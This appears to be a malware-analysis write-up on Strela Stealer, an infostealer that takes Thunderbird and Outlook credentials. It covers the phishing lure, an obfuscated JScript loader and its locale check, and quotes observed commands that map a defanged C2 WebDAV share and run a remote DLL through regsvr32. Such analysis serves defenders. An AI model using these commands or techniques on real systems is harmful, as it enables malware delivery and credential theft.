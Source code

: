 ## A Deep Dive into Strela Stealer and how it Targets European Countries
### Summary
Strela Stealer is an infostealer malware that has been active since late 2022. It is designed to specifically target and exfiltrate email login credentials from **Mozilla Thunderbird** and **Microsoft Outlook** on systems located in chosen European countries. Attackers deliver Strela Stealer through large-scale phishing campaigns, which have evolved to include forwarding legitimate emails with malicious ZIP archives containing the malware loader. The malware employs multi-stage execution with significant obfuscation at each stage to hinder analysis. The threat actor behind Strela Stealer is believed to be a single entity dubbed ‘Hive0145’, and its command-and-control infrastructure is linked to Russian bulletproof hosting providers. The malware checks the system's locale to ensure it is running in a targeted country before proceeding with data theft. If the locale matches, it searches for and exfiltrates login credentials and other system information.

### Technical Details
![alt text](<images/The Feed 2025-03-17_1.jpg>)
The attack chain begins with **phishing emails** written in a local language (e.g., German) and crafted to resemble invoices for recent product purchases. These emails contain a **ZIP archive** as an attachment. Upon opening, the ZIP archive reveals a **JScript (.js) file**, which acts as the first-stage loader. Double-clicking the JScript file executes it using the **Windows Script Host (wscript.exe)**.

The JScript code is heavily **obfuscated** using a technique where individual characters are stored in variables and then concatenated within an `eval()` function to form the actual payload. After deobfuscation, the script's initial logic involves verifying the system's locale. It does this by defining an array of hardcoded **Windows language code identifiers (LCIDs)** corresponding to German-speaking countries (Germany, Austria, Liechtenstein, Luxembourg, and Switzerland). The script then queries the registry key `HKCU\Control Panel\International\Locale` to retrieve the local system's LCID. A loop compares this retrieved LCID against the hardcoded array, and the script only proceeds if a match is found.

Upon successful locale verification, the JScript executes the second-stage payload hosted on a **command-and-control (C2) server**. It connects to a public **WebDAV file share** using the `cmd /c net use` command and then executes a hosted **DLL file** (e.g., 1909835116765.dll) using the `regsvr32` utility. This execution occurs **without saving the DLL to disk**. Simultaneously, a **blurred PDF decoy** is downloaded and displayed to the victim to divert suspicion. The observed commands are:
```
cmd /c net use \\\\193[.]143[.]1[.]205@8080\\davwwwroot\\davwwwroot
cmd /c regsvr32 /s \\\\193[.]143[.]1[.]205@8080\\davwwwroot\\1909835116765[.]dll
```
